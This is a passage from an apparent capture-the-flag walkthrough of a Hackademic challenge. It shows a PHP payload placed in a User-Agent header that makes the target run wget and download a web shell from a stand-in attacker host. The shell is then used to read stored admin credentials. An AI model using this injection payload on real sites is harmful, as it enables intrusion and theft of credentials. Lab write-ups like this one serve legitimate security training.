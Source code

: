 After poking around for the obvious vulnerabilities nothing seems to work. However
there is a chance that for whatever reason maybe the blog is saving and executing
the user agent that a specific post comes from. I have honestly never seen this
in any real testing howerver it is the solution to this challenge.

Knowing we have to upload a shell and that we have a shell available at the fake
"http://www.really_nasty_hacker.com/shell.txt" website we create the following
user agent containing the php system call code to wget our script.

{% highlight php %}
<?system("wget http://www.really_nasty_hacker.com/shell.txt");?>
{% endhighlight %}

![Embeded](/images/hackademic/screen21.png)
[FullSize](/images/hackademic/screen21.png)

After changing our user agent and submitting a new comment. We get confirmation
that our shell was uploaded and is now stored at "tyj0rL.php" in our web directory.

Once we load the shell and run a ls command there are two files in our web directory.
"adminpanel.php and sUpErDuPErL33T.txt". Opening sUpErDuPErL33T.txt we are given
a username and password combination. Copying those down and entering them
into the adminpanel.php reveals our congratulations message.
